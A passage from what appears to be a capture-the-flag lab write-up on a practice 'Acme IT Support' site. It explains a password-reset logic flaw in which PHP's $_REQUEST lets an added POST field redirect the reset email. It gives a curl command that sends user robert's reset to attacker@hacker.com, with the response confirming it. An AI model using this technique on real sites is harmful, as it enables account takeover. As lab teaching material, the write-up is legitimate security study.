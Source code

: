 Using `robert` as the username, we are then presented with a confirmation message that a password reset email will be sent to `robert@acmeitsupport.thm`. 

![Acme IT Support reset password stage 3](./img/acme_reset_pw_3.png "Acme IT Support reset password stage 3")

It turns out that in the password reset process, the username is submitted in a `POST` field, while the email address is sent as a `GET` parameter (query string in URL).

![Acme IT Support reset password request](./img/acme_reset_pw_request.png "Acme IT Support reset password request")

It turns out that in the application, the user account is retrieved via the query string, but the password reset email is sent using the data found in the PHP (superglobal) variable `$_REQUEST` -- an array containing data received from the query string and `POST` data. However, the logic for the `$_REQUEST` variable favours `POST` data fields over query strings, so if we add another parameter to the `POST` form, we can control where the password reset email is sent. We try to do this using `curl`:

```sh
~$ curl 'http://<WEBSITE_ADDRESS>/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

In the response, we see that the email is indeed sent to `attacker@hacker.com`.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    ...
</head>
<body>
    ...
    <h1 class="text-center">Acme IT Support</h1>
    <h2 class="text-center">Reset Password</h2>
    <div class="row">
        <div class="col-md-4 col-md-offset-4">
            <div class="alert alert-success text-center">
                    <p>We'll send you a reset email to <strong>attacker@hacker.com</strong></p>
            </div>
        </div>
    </div>
    ...
</body>
</html>
```
